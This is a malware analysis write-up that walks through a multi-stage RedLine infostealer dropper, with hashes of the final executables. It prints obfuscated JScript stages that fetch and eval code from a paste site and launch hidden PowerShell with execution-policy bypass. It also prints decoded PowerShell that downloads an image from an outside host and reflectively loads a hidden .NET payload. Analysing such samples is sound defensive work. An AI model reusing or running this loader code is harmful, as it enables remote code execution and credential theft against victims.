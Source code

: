 ## Multi Stage Redline Infostealer

RedLine Stealer is malware available on underground forums for sale. This malware harvests information from browsers such as saved credentials, autocomplete data, and credit card information. A system inventory is also taken when running on a target machine, to include details such as the username, location data, hardware configuration, and information regarding installed security software.

## Initial JavaScript

``` powershell
function TwtgaWCivnsxiQCbwJSLTCoEJMdptJClJHpZjAWDdZiSqltCvhdULoxXBHwyHFsZGOAumfobRmSZYGcnTOqlQIORHhyqfcitfVIVoRXnknNbOnVerxNCyeaBAnMEDuvyWPYATkqBNDZeMFnDOCskmTaUSfpbVTXPKKBNtUyFSBdQbdByWNvZaxWgdUegnKYPirtLGYpA(str) {
    return str.split('').reverse().join('');
}

var oPFGPIuwcHruJTqFXjackEDlcnSzkthlCzIxXlRxaOutOoYGbxOJUKfcrtBMDtjLncxhrEnaotOSkdlvRkrSPphrTeSAxkMlnajBFllHaaMPVqXpMfUyXfABgdmnGxUicFvvXnegWxKqCEcNpydCZTlzoPAHStszEyriqeEaCkwZHyLRCPbAclBysrLOoipeWFgBnPbj = "56wui/d/ee.etsap//:sptth";
var cumuxNDEeacpyaraANJjLJnjKWjsdTrCJBWmgiGbHiuUIbVrZIQDORghDNrMPsyUzaOqvclFsaAspOPMMsRRVxjwjEHSFNjjlaJyfnBefRcZGdPVEHzEDwYZHiYlWgtzZIrqwJncSyvGXRdtQmwOgNmnXYtFaUYsLwaEJLZVsBorPpnRuJbiAmWofsqthdWXRodWaxKM = TwtgaWCivnsxiQCbwJSLTCoEJMdptJClJHpZjAWDdZiSqltCvhdULoxXBHwyHFsZGOAumfobRmSZYGcnTOqlQIORHhyqfcitfVIVoRXnknNbOnVerxNCyeaBAnMEDuvyWPYATkqBNDZeMFnDOCskmTaUSfpbVTXPKKBNtUyFSBdQbdByWNvZaxWgdUegnKYPirtLGYpA(oPFGPIuwcHruJTqFXjackEDlcnSzkthlCzIxXlRxaOutOoYGbxOJUKfcrtBMDtjLncxhrEnaotOSkdlvRkrSPphrTeSAxkMlnajBFllHaaMPVqXpMfUyXfABgdmnGxUicFvvXnegWxKqCEcNpydCZTlzoPAHStszEyriqeEaCkwZHyLRCPbAclBysrLOoipeWFgBnPbj);

var BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL = new ActiveXObject("MSXML2.ServerXMLHTTP");
BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.open("GET", cumuxNDEeacpyaraANJjLJnjKWjsdTrCJBWmgiGbHiuUIbVrZIQDORghDNrMPsyUzaOqvclFsaAspOPMMsRRVxjwjEHSFNjjlaJyfnBefRcZGdPVEHzEDwYZHiYlWgtzZIrqwJncSyvGXRdtQmwOgNmnXYtFaUYsLwaEJLZVsBorPpnRuJbiAmWofsqthdWXRodWaxKM, false);
BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.send();

var zFRcqeVmscmYglMSIKZAFqrssqIFeUgbGdouShnFfqpDAimEMJkAyPxIcPDUpQQAMmYIVtUFfORiLjLCeEUXtOPBVuPvoWYsuhhZOrGMMOgfinDwtmaWyqxlWykOsjqbWlPcJphRbNOKfyAANzexSiOpBsamnhxbXEknDRwbAgKIcMSduPSyCmavuzOxxPFKJyiqQhxu = BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.responseText;

(function() {
    eval(zFRcqeVmscmYglMSIKZAFqrssqIFeUgbGdouShnFfqpDAimEMJkAyPxIcPDUpQQAMmYIVtUFfORiLjLCeEUXtOPBVuPvoWYsuhhZOrGMMOgfinDwtmaWyqxlWykOsjqbWlPcJphRbNOKfyAANzexSiOpBsamnhxbXEknDRwbAgKIcMSduPSyCmavuzOxxPFKJyiqQhxu);
})();
```

Besides the very long annoying variable names, this initial script is quite simple, it takes the string "56wui/d/ee.etsap//:sptth", reverses it, and executes the contents of that URL.

Now we know where the second stage is hosted, we'll head over and download the contents to investigate further.

## 2nd Stage - Further JavaScript

``` powershell
    var gQBnV = false;

    function PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(LpxIb) {
        return LpxIb.split('').reverse().join('');
    }
   
    var olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY = PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("♚♛kC♚♛p♚♛wJ♚♛UG♚♛tBQY♚♛4E♚♛rBgb♚♛wE♚♛n♚♛♚♛I♚♛wC♚♛n♚♛♚♛X♚♛EG♚♛0BQY♚♛QE♚♛tBQY♚♛IH♚♛nBwb♚♛IH♚♛QB♚♛X♚♛oD♚♛DBwJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛x♚♛wJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛lBQb♚♛EG♚♛OBwc♚♛IG♚♛WBwJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛y♚♛wJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛n♚♛♚♛I♚♛wC♚♛g♚♛wJ♚♛gG♚♛0B♚♛d♚♛♚♛H♚♛zBgO♚♛8C♚♛v♚♛♚♛c♚♛EG♚♛zB♚♛d♚♛UG♚♛u♚♛QZ♚♛UG♚♛v♚♛♚♛Z♚♛8C♚♛VBQN♚♛cD♚♛LBQa♚♛8C♚♛w♚♛wJ♚♛gC♚♛g♚♛QX♚♛0F♚♛bB♚♛d♚♛MG♚♛lBga♚♛IG♚♛vBwW♚♛♚♛C♚♛s♚♛♚♛b♚♛wG♚♛1Bgb♚♛QC♚♛o♚♛QZ♚♛sG♚♛vBgd♚♛4G♚♛JBgL♚♛kC♚♛n♚♛gb♚♛UH♚♛SBwJ♚♛gC♚♛kBwb♚♛gG♚♛0BQZ♚♛0E♚♛0BQZ♚♛cE♚♛u♚♛QZ♚♛♚♛H♚♛5B♚♛d♚♛QC♚♛g♚♛QP♚♛♚♛C♚♛kBwb♚♛gG♚♛0BQZ♚♛0G♚♛k♚♛wO♚♛kC♚♛n♚♛QM♚♛MH♚♛zBQY♚♛wG♚♛DBgL♚♛MD♚♛5Bgc♚♛EG♚♛yBgY♚♛kG♚♛MBwc♚♛MH♚♛hB♚♛b♚♛ME♚♛n♚♛♚♛K♚♛UG♚♛wBQe♚♛QF♚♛0BQZ♚♛cE♚♛u♚♛Qe♚♛wG♚♛iBQb♚♛UG♚♛zBwc♚♛EE♚♛kBQZ♚♛QG♚♛hBwb♚♛wG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛QZ♚♛♚♛H♚♛5B♚♛d♚♛QC♚♛7♚♛QK♚♛MH♚♛lB♚♛d♚♛kH♚♛CB♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwY♚♛QC♚♛o♚♛♚♛Z♚♛EG♚♛vB♚♛T♚♛oD♚♛6♚♛QX♚♛kH♚♛sBgY♚♛0G♚♛lBwc♚♛MH♚♛BBgL♚♛4G♚♛vBQa♚♛QH♚♛jBQZ♚♛wG♚♛mBQZ♚♛IF♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛kH♚♛sBgY♚♛0G♚♛lBwc♚♛MH♚♛BB♚♛Z♚♛UG♚♛kBQY♚♛8G♚♛sB♚♛J♚♛sD♚♛p♚♛♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwQ♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛o♚♛wZ♚♛4G♚♛pBgc♚♛QH♚♛TB♚♛N♚♛YD♚♛lBwc♚♛EG♚♛CBQb♚♛8G♚♛yBgR♚♛oD♚♛6♚♛QX♚♛QH♚♛yBQZ♚♛YH♚♛uBwb♚♛ME♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛MH♚♛lB♚♛d♚♛kH♚♛CB♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwY♚♛QC♚♛7♚♛QK♚♛gG♚♛0BwZ♚♛4G♚♛lB♚♛T♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛g♚♛♚♛L♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛K♚♛cG♚♛uBQa♚♛IH♚♛0Bwc♚♛IG♚♛1BwU♚♛4C♚♛0B♚♛e♚♛UG♚♛UBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwQ♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛7♚♛♚♛e♚♛UG♚♛kBgb♚♛kE♚♛0Bgc♚♛EG♚♛0Bwc♚♛QC♚♛g♚♛QL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QG♚♛uBQZ♚♛QC♚♛g♚♛QP♚♛♚♛C♚♛oB♚♛d♚♛cG♚♛uBQZ♚♛wE♚♛0♚♛gN♚♛UG♚♛zBQY♚♛IG♚♛k♚♛wO♚♛gG♚♛0BwZ♚♛4G♚♛lB♚♛T♚♛4C♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛I♚♛0D♚♛r♚♛♚♛I♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛I♚♛QH♚♛nBQL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QG♚♛uBQZ♚♛QC♚♛g♚♛♚♛Z♚♛4G♚♛hBQL♚♛♚♛C♚♛w♚♛♚♛I♚♛UG♚♛nBQL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QH♚♛yBQY♚♛QH♚♛zB♚♛J♚♛sD♚♛p♚♛wZ♚♛EG♚♛sBgR♚♛QG♚♛uBQZ♚♛QC♚♛o♚♛gZ♚♛8E♚♛4BQZ♚♛QG♚♛uBQS♚♛4C♚♛0B♚♛e♚♛UG♚♛UBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛♚♛e♚♛UG♚♛kBgb♚♛kE♚♛kBgb♚♛UG♚♛k♚♛wO♚♛kC♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛K♚♛YG♚♛PB♚♛e♚♛UG♚♛kBgb♚♛kE♚♛u♚♛♚♛d♚♛gH♚♛lB♚♛V♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛♚♛C♚♛9♚♛♚♛I♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛cC♚♛+♚♛gP♚♛QE♚♛OBQR♚♛8F♚♛0♚♛gN♚♛UE♚♛TBQQ♚♛IE♚♛8♚♛♚♛P♚♛cC♚♛g♚♛QP♚♛♚♛C♚♛nBQY♚♛wG♚♛GB♚♛Z♚♛4G♚♛lB♚♛J♚♛sD♚♛n♚♛gP♚♛4D♚♛UBgU♚♛EE♚♛UBwU♚♛8F♚♛0♚♛gN♚♛UE♚♛TBQQ♚♛IE♚♛8♚♛♚♛P♚♛cC♚♛g♚♛QP♚♛♚♛C♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛kC♚♛zBQZ♚♛QH♚♛5BgQ♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛gC♚♛nBgb♚♛kG♚♛yB♚♛d♚♛MF♚♛0BQZ♚♛cE♚♛u♚♛♚♛O♚♛YE♚♛UBQV♚♛oD♚♛6♚♛QX♚♛cG♚♛uBQa♚♛QG♚♛vBwY♚♛4G♚♛FBgL♚♛QH♚♛4BQZ♚♛QF♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛QH♚♛4BQZ♚♛QF♚♛lBwZ♚♛EG♚♛tBQa♚♛QC♚♛7♚♛QK♚♛wG♚♛yBQV♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛gC♚♛hB♚♛d♚♛EG♚♛EB♚♛Z♚♛EG♚♛vB♚♛b♚♛4G♚♛3Bwb♚♛QE♚♛u♚♛♚♛d♚♛4G♚♛lBQa♚♛wG♚♛DBgY♚♛UG♚♛3B♚♛J♚♛♚♛C♚♛9♚♛♚♛I♚♛MH♚♛lB♚♛d♚♛kH♚♛CBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛wO♚♛QH♚♛uBQZ♚♛kG♚♛sBwQ♚♛IG♚♛lBwV♚♛4C♚♛0BQZ♚♛4E♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TB♚♛I♚♛QH♚♛jBQZ♚♛oG♚♛iBwT♚♛0C♚♛3BQZ♚♛4E♚♛g♚♛QP♚♛♚♛C♚♛0Bgb♚♛UG♚♛pB♚♛b♚♛ME♚♛iBQZ♚♛cH♚♛k♚♛wO♚♛cC♚♛5♚♛♚♛M♚♛YD♚♛x♚♛QO♚♛UD♚♛y♚♛♚♛M♚♛cD♚♛x♚♛wP♚♛cG♚♛wBga♚♛4C♚♛zBga♚♛8C♚♛sBQY♚♛4G♚♛pBwZ♚♛kG♚♛yBwb♚♛8C♚♛3♚♛QN♚♛ID♚♛v♚♛QM♚♛kD♚♛2♚♛wL♚♛QD♚♛w♚♛♚♛M♚♛8C♚♛zBQZ♚♛cG♚♛hBQb♚♛kG♚♛v♚♛gc♚♛IG♚♛u♚♛Qb♚♛8G♚♛jBgL♚♛MH♚♛uBQZ♚♛cG♚♛hBQb♚♛kG♚♛lB♚♛Z♚♛QG♚♛hBwb♚♛wG♚♛wBQd♚♛8C♚♛v♚♛gO♚♛MH♚♛wB♚♛d♚♛QH♚♛oBwJ♚♛♚♛C♚♛9♚♛♚♛I♚♛wG♚♛yBQV♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J");
    var hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq = PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("' = ogidoC$") + 
    olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY + "';" +
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("S[ = dxujWO$") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("eT.metsy") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("nU::]gnidocnE.tx") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("eG.edoci") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("C.metsyS[(gnirtSt") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("6esaBmorF::]trevno") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("lper.ogidoc$(gnirtS4") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(";)) )'A','♚♛'(eca") +
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("niw- exe.llehsrewop") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("exe- neddih elytswod") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("N- ssapyb ycilopnoituc") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("moc- eliforPo") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("dxujWO$ dnam");
    var eDiSkbNqurqMJDuUiMjNdhOPQQQBvgCftSEHiubYOGUaguzUTNMYeXrTtQOfKyfoAYstCerExYstbTlKouLwhYrnRQphSSARgdjkjrVfvyUZpnHZUSKwsqxMwNFXqElpakdDRQTBboYYHlOHdpQuaUtcDulXphSoyytwUdssTCfGwUoaWBxOUbiVhnwlqCxQURynpcjj = "\x57\x53\x63\x72\x69\x70\x74\x2E\x53\x68\x65\x6C\x6C"
    var ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF = new ActiveXObject(eDiSkbNqurqMJDuUiMjNdhOPQQQBvgCftSEHiubYOGUaguzUTNMYeXrTtQOfKyfoAYstCerExYstbTlKouLwhYrnRQphSSARgdjkjrVfvyUZpnHZUSKwsqxMwNFXqElpakdDRQTBboYYHlOHdpQuaUtcDulXphSoyytwUdssTCfGwUoaWBxOUbiVhnwlqCxQURynpcjj);
    ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF.Run("\x70\x6F\x77\x65\x72\x73\x68\x65\x6C\x6C\x20\x2D\x63\x6F\x6D\x6D\x61\x6E\x64 \"" + hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq + "\"", 0, false);
```

Again, annoyingly long variable names, we can rename these just to make it a little less of an eye sore.

We can then work out parts of the script, simply by reversing the strings for the PowerShell part, and doing a From Hex operation on the later parts.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9838b0c5-600c-4c17-bab6-ef82d75c67a9)

The Base64 element can be analysed by utilising the following Operators in CyberChef:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/de584242-bd66-4c9e-b305-39a9e120e00b)

Which reveals the following:

``` powershell
$imageUrl = 'hxxps[://]uploaddeimagens.com[.]br/images/004/691/257/original/js.jpg?1702591609';$webClient = New-Object System.Net.WebClient;$imageBytes = $webClient.DownloadData($imageUrl);$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);$startFlag = '<<BASE64_START>>';$endFlag =
'<<BASE64_END>>';$startIndex = $imageText.IndexOf($startFlag);$endIndex = $imageText.IndexOf($endFlag);$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;$base64Length = $endIndex - $startIndex;$base64Command = $imageText.Substring($startIndex, $base64Length);$commandBytes =
[System.Convert]::FromBase64String($base64Command);$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);$type = $loadedAssembly.GetType('ClassLibrary3.Class1');$method = $type.GetMethod('Run').Invoke($null, [object[]] ('0/iK75U/d/ee.etsap//:sptth' , '' , '2' , 'VbsName' , '1' , 'C:\ProgramData\',
'LnkName'))
```

There are 2 interesting URLs within this command block:

[-] hxxps[://]uploaddeimagens.com[.]br/images/004/691/257/original/js.jpg?1702591609

[-] hxxps[://]paste[.]ee/d/U57Ki/0

For the first URL, it reads the bytes in between 2 flags present in the strings of an image file and executes them.

We can extract this too by downloading the image, running a strings command, and extracting the code between the <<BASE64_START>> and <<BASE64_END>> flags.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/87dd46b6-366f-44d2-8768-9c26fae6b070)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7ae91d50-d7f6-42f1-8b17-eaf7dee97fdf)

When decoding this from Base64 we are given an executable file.

The second URL contains a reversed Base64 string which contains another executable.

1st Executable SHA 256: e7e22e5e0f47fe2c2aa71f293e609c4fac901823dce6c6ae39400d1c2f02df54

2nd Executable SHA 256: 8c21274f725299022fbf415925210da65702198913c4713dfe5dda09ceb2d38a





